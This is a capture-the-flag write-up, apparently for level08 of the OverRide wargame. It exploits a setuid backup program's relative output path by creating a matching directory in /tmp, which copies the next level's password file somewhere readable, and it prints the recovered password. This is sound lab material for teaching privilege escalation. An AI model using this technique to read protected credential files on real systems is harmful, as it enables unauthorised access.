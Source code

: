 Level08 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

level08 rights:
```Shell
level08@OverRide:~$ ls -la level08 
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
```

```Shell
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The program take a file path as argument and make a backup of its content.
It can't create the backup because the directory containing it doesn't exist.

We will create the directory that it need but in /tmp to have the right permission, executing the program in /tmp will use our newly directory to do the backup because the backup path is relative.

```Shell
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```